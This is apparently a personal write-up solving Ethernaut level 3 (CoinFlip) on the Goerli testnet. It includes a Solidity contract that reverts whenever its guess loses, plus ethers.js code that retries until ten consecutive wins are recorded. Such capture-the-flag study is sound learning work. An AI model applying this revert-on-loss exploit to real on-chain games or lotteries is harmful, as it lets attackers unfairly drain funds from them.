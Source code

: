 Level 3
==========================================================================================================================================

Deployment transaction: https://goerli.etherscan.io/tx/0x4970f628e73685e57d269bb5447ae599e8acdc257d2be4c7a5c68996c2893e48
Submission transaction: https://goerli.etherscan.io/tx/0x4bd7744e55814c26f7df3e1c2ee50f6777290d351eab40b4d2f8ebd98dba7fdc

-------
This challenge's task is to get 10 or more consecutive wins. 
Notice the CoinFlip contract returns true if the guess was correct and false if it wasn't. All we have to do is instantiate an exploit contract that can call the flip function and reverts whenever it receives a false returned value.
As the exploit contract reverts when it doesn't win, only 10 EVM state changes will happen.

#### Exploit contract:

The interface refers to Coinflip's flip function. Notice we define the return type for that function, otherwise we won't be allowed to compile this contract.
The attemptCoinFlip is a function that will revert if our guess returns a false response.
The target address is set to private due to the lack of any real use of having this internal/external nor public. It is a good safety practice to default stored values to private and only change this upon real need. Notice, though, that this private visibility does not mean the variable cannot be seem by third parties - it means cannot be called, even by contracts that inherit CoinFlipExploit.

```
    interface Coinflip{
        function flip(bool _guesss) external returns(bool);
    }

    contract CoinFlipExploit {
        address private target;

    constructor (address _target)  {
        target = _target;
    }

    function attemptCoinFlip() external{
        require(Coinflip(target).flip(true), "Wrong answer");
        
    }

}

```

#### The deployment script:
I've had a lot of fun. I wanted it to run automatically till I got all the 10 consecutive transactions and nothing else. For that to happen, I needed to check the consecutive wins amount every time the script ran:
```
    const consecutiveWins = await coinFlipContract.consecutiveWins();
```
Since it fetches on-chain data, this value would be automatically updated by the EVM if a successfull coinFlip attempt was pushed.

To not allow the script to run if the consecutiveWins was bigger than 9, wecreate a condition to exit the node.js process.
```
    if(consecutiveWins > 9 ){
        console.log(`Task already solved! Move on, mate!\n ------ `);
        process.exit();
    } 
```

To save ether, I only wanted to deploy the exploit contract once. So I checked the total amount of attempts, and if it was bigger than 0, we'd just refer to the already deployed contract.
```
    if (totalAttempts == 0){
      // deploy new exploit contract
      console.log(`Deploying coin flip exploit contract.\n ------ `)
      coinFlipExploitContract = await coinFlipExploitContractInterface.deploy( coinFlipContractAddress);
    
      console.log(`Coin flip exploit contract succesfully deployed at address ${coinFlipExploitContract.address}\n ------ \n`);
      globalCoinFlipExploitContractAddress = coinFlipExploitContract.address;
    
      } else {
      // use already deployed contract
        coinFlipExploitContract =new ethers.Contract(globalCoinFlipExploitContractAddress, CoinFlipExploitJson.abi, signer);
    
      }
```

Ethers.js usually stops scripts from running whenever a transaction attempt errors. The solution was to attempt anything inside try and catch blocks, meaning we would error would be handled and the script would not get stopped. 
```
    console.log(`Attempting to push coin flip transaction.\n ------ `);
    try{
        const coinFlipAttemptTx = await coinFlipExploitContract.attemptCoinFlip();
        const coinFlipAttemptTxReceipt = await coinFlipAttemptTx.wait();
        console.log(`Coinflip attempt succesfull\n ------ `);
    } catch(e){
        console.log(`Wrong answer\n ------ `);
        console.log(`${e}\n ------ `);
        
    }
```

Last but not least, we recursively call the script again and update the totalAttempts amount.
```
    main();
    }
  totalAttempts += 1;
```

Final result: 


Ethernaut level 3 - script made by JoVi

Checking consecutive wins amount

...

10!

...

136 attempts so far!

...

Task already solved! Move on, mate!

...

Done in 448.89s.






